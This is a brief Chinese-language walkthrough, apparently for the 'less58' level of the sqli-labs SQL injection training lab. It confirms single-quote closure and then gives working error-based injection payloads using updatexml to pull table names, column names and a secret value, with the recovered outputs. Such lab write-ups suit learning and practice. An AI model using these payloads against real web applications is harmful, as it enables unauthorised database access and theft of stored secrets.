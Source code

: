 ```yaml
---
title: less58
url: https://www.yuque.com/u29002979/ep2zrx/bp76dawm6tiyma2z
---
```


```bash
$sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";
```

通过猜解发现闭合方式为单引号'
&#x20;尝试后发现没有了回显，采用报错注入的方式进行爆破

`?id=1' and 1=1--+`
`?id=1' and 1=2--+` <a name="xUWO0"></a>

# 报错注入

```bash
爆破数据表
?id=-1' and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
数据表：ya8oopss6p

爆破字段名
?id=-1' and updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='ya8oopss6p'),0x7e),1) -- +
字段：secret_VCIW

获取密码
?id=-1' and updatexml(1,concat(0x7e,(select secret_VCIW from ya8oopss6p),0x7e),1) -- +
密码：hS3pemAQq50IlYe5RRctDcPH
```
